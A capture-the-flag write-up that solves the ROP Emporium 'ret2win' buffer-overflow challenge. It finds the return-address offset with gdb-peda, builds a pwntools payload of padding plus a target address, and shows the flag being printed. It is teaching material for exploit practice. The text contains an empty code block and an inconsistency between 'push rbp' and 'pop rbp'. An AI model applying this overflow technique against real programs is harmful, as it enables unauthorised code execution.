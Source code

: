 ```bash

```

In 64-bit binaries we can see the RIP doesn't contain our sequence. In 64-bit, it will not pop a value into RIP if it cannot actually jump to the address and execute it. So the value is at top of the stack after popping to RIP failed. So from above we can see that RSP has the pattern, we can get value from it. As we can see it has a value of **"AA0AAFAAb"** at the time of segment fault.

Time to find the padding we need in order to execute the instruction properly. Using peda:-

```

gdb-peda$ pattern_offset AA0AAFAAb
AA0AAFAAb found at offset: 40

```

# Creating Exploit

Now, we have all we need to execute the exploit. Now let's craft the exploit.
We need the memory address of RIP and the padding length and python, of course.

Using pwntools to craft exploit:-

```python
from pwn import * # Importing all functions from pwntools

prog = process("./ret2win") # Opening ret2win library

payload = "A" * 40 # padding
payload += p64(0x00400824) # Address of "push rbp" from sym.pwnme

open('payload', 'w').write(payload) # Writing the payload to fie payload.

```

Now, run the exploit:-

```bash
robin@oracle:~/ROP-Emporium$ python ret2win.py
[+] Starting local process './ret2win': pid 9089
[*] Stopped process './ret2win' (pid 9089)
robin@oracle:~/ROP-Emporium$ ./ret2win < payload
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> ROPE{a_placeholder_32byte_flag!}

```

Bam, we read the flag by pushing the `pop rbp` address to RIP hence executing our payload.

Follow me on [twitter](https://twitter.com/d4mianwayne) for more ROP contents.
